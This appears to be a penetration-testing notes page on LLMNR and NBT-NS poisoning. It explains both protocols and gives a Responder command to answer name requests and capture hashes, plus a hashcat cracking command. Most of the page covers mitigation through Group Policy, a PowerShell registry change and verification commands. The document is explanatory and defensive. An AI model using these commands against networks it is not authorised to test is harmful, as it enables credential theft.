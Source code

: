 ## Overview
LLMNR is a protocol that allows both IPv4 and IPv6 hosts to perform name resolution for hosts on the same local network without requiring a DNS server or DNS configuration.
When a host’s DNS query fails (i.e., the DNS server doesn’t know the name), the host broadcasts an LLMNR request on the local network to see if any other host can answer. <br><br>
LLMNR is the successor to NetBIOS.  NetBIOS (Network Basic Input/Output System) is an older protocol that was heavily used in early versions of Windows networking. NBT-NS is a component of NetBIOS over TCP/IP (NBT) and is responsible for name registration and resolution.  Like LLMNR, NBT-NS is a fallback protocol when DNS resolution fails. It allows local name resolution within a LAN.

## Exploitation [EASY]
Listen for LLMNR requests and respond with our own attacker IP address, to redirect the traffic:
```bash
sudo responder -I eth0 -dPv
```
Once an event occurs, we can grab the hash and try to crack it using custom wordlists:
```bash
hashcat –m 5600 HASH-FILE CUSTOM-WORDLIST
```
## Mitigation
- Disable LLMNR by selecting “Turn OFF Multicast Name Resolution” under Computer Configuration > Administrative Templates > Network > DNS Client in the Group Policy Editor.<br><br>
- Then, disabled NBT-NS via GPO using the following Powershell script under Startup Scripts in Computer Configuration > Policies > Windows Settings > Scripts > Startup:
```powershell
Set-ItemProperty -Path HKLM:\SYSTEM\CurrentControlSet\services\NetBT\Parameters\Interfaces\tcpip* -Name NetbiosOptions -Value 2
```
## Confirming mitigations
Check for LLMNR:
```powershell
$(Get-ItemProperty -Path "HKLM:\Software\Policies\Microsoft\Windows NT\DNSClient" -name EnableMulticast).EnableMulticast
```
Check for NBT-NS:
```bash
wmic nicconfig get caption,index,TcpipNetbiosOptions
```
## Best practice
- Ensure password complexity (greater than 14 characters, alphanumeric, symbols)
- Use [Network Access Control](https://www.fortinet.com/resources/cyberglossary/what-is-network-access-control).
